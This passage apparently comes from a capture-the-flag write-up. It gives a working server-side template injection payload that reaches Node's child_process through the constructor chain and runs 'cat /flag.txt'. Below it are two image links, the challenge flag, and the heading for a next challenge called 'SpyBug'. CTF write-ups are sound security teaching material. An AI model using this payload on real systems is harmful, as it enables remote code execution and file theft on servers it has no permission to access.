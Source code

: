 `{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}`

<img src="dict2.png" alt="Payload" width="1000"/>

<img src="dict3.png" alt="Admin panel demo" width="1000"/>

Flag is: **HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}**

## SpyBug
